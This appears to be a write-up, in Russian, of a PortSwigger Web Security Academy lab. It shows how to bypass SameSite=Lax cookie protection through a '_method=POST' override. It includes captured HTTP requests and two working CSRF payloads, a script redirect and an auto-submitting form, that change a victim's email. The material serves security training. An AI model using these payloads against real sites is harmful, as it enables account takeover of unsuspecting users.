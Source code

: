 # SameSite Lax bypass via method override
PRACTITIONER

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

You can log in to your own account using the following credentials: wiener:peter

## Решение
При логине кукис "session" устанавливается без явного указания атрибута SameSite. Как известно, "жертва" использует Chrome, а в Chrome SameSite установится в Lax. Это значит, что можно отправить с другого сайта GET-запрос, которому будет доступен кукис "session".
```
POST /login HTTP/2
Host: 0aae00a703de72528386788e001d00e2.web-security-academy.net
Cookie: session=63aZqwTW9d5ekwbpg3tkv2n46TlxaNQI
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://0aae00a703de72528386788e001d00e2.web-security-academy.net
Referer: https://0aae00a703de72528386788e001d00e2.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

username=wiener&password=peter
```
Функционал смены email не принимает GET-запросов:
```
GET /my-account/change-email?email=wiener456@normal-user.net HTTP/2
Host: 0aae00a703de72528386788e001d00e2.web-security-academy.net
Cookie: session=kRxax3oqErWswnOw13zH6LPe4Jjp49NL
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://exploit-0a15009c031772c98389773a016a00e0.exploit-server.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Te: trailers
```
```
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 29

"That email is not available"
```
Но это ограничение можно обойти в случае фреймворка Symfony, если добавить запросу query-параметр `_method=POST`:
```
<script>
document.location = "https://0aae00a703de72528386788e001d00e2.web-security-academy.net/my-account/change-email?email=wiener456@normal-user.net&_method=POST";
</script>
```
Или через форму:
```
<html>
<body>
    <form action="https://0ac6000e031c7ecd84950e05002400f9.web-security-academy.net/my-account/change-email" method="GET">
        <input type="hidden" name="email" value="wiener123@normal-user.net">
        <input type="hidden" name="_method" value="POST">
    </form>
    <script>document.forms[0].submit();</script>
</body>
</html>
```
Задание выполнено.
